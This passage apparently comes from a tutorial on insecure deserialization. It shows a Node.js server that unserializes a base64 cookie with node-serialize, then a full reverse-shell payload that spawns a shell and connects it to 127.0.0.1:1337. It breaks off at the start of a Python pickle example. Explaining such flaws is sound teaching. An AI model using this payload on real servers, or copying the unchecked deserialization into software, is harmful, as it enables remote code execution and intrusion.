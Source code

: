```js
      res.cookie('profile', "eyJ1c2VybmFtZSI6ImFkbWluIiwiY29tcGFueSI6ImtvbmR1a3RvIiwibG9jYXRpb24iOiJjbG91ZGJhbmsifQ==" , {
         maxAge: 900000,
         httpOnly: true
      });
      res.send("Hello stranger");
   }
});

app.listen(3000);

```

The above program creates a server that listens on port 3000. However, the following lines are very crucial:

```js
var str = new Buffer(req.cookies.profile, 'base64').toString();
var obj = serialize.unserialize(str);
```

Essentially, the server decodes the base64 encoded cookie and then proceeds to deserialize it with the `serialize.unserialize()` function without any checks. This leads to the server code being vulnerable and allows and attacker the capability to execute code eremotely. For example, to spawn a reverse shell, an attacker can use the following payload:

```
{"rce":"_$$ND_FUNC$$_function() { var net = require('net'); var spawn =
require('child_process').spawn; HOST = \"127.0.0.1\"; PORT = \"1337\";
TIMEOUT = \"5000\"; if (typeof String.prototype.contains === 'undefined') { 
String.prototype.contains = function(it) { return this.indexOf(it) != -1;
}; } function c(HOST, PORT) { var client = new net.Socket();
client.connect(PORT, HOST, function() { var sh = spawn(\"sh\", []);
client.write(\"Connected!\"); client.pipe(sh.stdin);
sh.stdout.pipe(client); sh.stderr.pipe(client); sh.on('exit',
function(code, signal) { client.end(\"Disconnected!\"); }); });
client.on('error', function(e) { setTimeout(c(HOST, PORT), TIMEOUT); }); }
c(HOST, PORT);}( )"}
```

Base64 encoding the above payload and putting it as the cookie value of the request will create a reverse shell to `127.0.0.1` on port `1337`.

## Python3
The most common use of deserialization in python is via the `pickle.loads()` function. Consider the following server code:
```python
import pickle
import binascii
from base64 import urlsafe_b64decode
from flask import Flask
from flask import request, jsonify

app = Flask(__name__)


@app.route('/', methods = ['GET', 'POST'])
def user():
    if request.method == 'GET':
        return jsonify({"message":"Hello World!"})

        
    if request.method == 'POST':
        try:
            data = request.form 
            decoded = urlsafe_b64decode(data['payload'])
```